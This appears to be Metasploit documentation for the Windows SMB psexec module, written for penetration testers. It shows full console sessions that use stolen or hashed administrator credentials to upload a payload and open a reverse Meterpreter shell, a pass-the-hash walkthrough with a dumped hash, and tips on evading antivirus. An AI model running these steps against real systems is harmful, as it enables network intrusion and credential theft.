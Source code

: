 PsExec is one of the most popular exploits against Microsoft Windows. It is a great way to test password security and demonstrate how a
stolen password could lead to a complete compromise of an entire corporate network.

## Vulnerable Application

To be able to use `exploit/windows/smb/psexec`:

1. A valid username and password must be set.
1. The firewall must allow SMB traffic.
1. The remote Windows machine's network security policy must allow it.
    * If the specified account is a local Administrator and the target is Windows Vista or newer, then "Remote UAC" must be disabled (the
      `DWORD` value `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` must be 1).
      See [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy][1] for more information. Without this setting, the server will
      respond with `STATUS_ACCESS_DENIED` and PsExec will fail.

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential using the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

## Options

By default, using exploit/windows/smb/psexec can be as simple as setting the RHOST option, and you're ready to go. But in reality, you will
probably need to at least configure:

**The SMBUser Option**

This is a valid Windows username.

**The SMBPass option**

This can be either the plain text version or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario using psexec is that attackers usually begin by breaking into a box, dumping the hashes, and using
some of those hashes to log into other boxes on the network using psexec. So in that scenario, with the following stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

You can simply copy and paste it to the SMBPass option in psexec and get a session without needing to crack the hash:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

There are multiple targets available for exploit/windows/smb/psexec. The Automatic target is the default target. If the  Automatic target
detects Powershell on the remote machine, it will try Powershell, otherwise it uses the natie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded in it. Since this approach does not
leave anything on disk, it is a very powerful way to evade antivirus. However, older Windows machines might not support Powershell by
default.

Because of this, you will probably want to use the Automatic target setting. The automatic mode will check if the target supports
Powershell before it tries it; the manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (which can be modified with the
SHARE datastore option), and then execute it with psexec.

This approach is generally reliable, but has a high chance of getting caught by antivirus on the target. To counter this, you can try to
use a template by setting the EXE::Path and EXE::Template datastore options. Or, you can supply your own custom EXE by setting the
`EXE::Custom` option.

**MOF Upload Target**

The [MOF](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows) target
technically does not use psexec; it does not explicitly tell Windows to execute anything. All it does is upload two files: the payload
(exe) in SYSTEM32 and a managed object format file in SYSTEM32\wbem\mof\ directory. When Windows sees the MOF file in that directory, it
automatically runs it. Once executed, the code inside the MOF file basically tells Windows to execute our payload in SYSTEM32, and you get
a session.

Although it's a neat trick, Metasploit's MOF library only works against Windows XP and Windows Server 2003. And since it writes files to
disk, there is also a high chance of getting caught by antivirus on the target.

The best way to counter antivirus is still the same. You can either use a different template by setting the EXE::Path and EXE::Template
datastore options or you can supply your own custom EXE by setting the EXE::Custom option.

**Command**

The command target causes the psexec operation to execute an operating system command. This can either be a `cmd/windows/` payload provided
by Metasploit, or the user can specify their own by using the `cmd/windows/generic` payload and setting `CMD`. The output of the command
will be written to a file and then retrieved so that it is accessible. If the command does not immediately return, then reading the output
will fail.

[1]: https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/
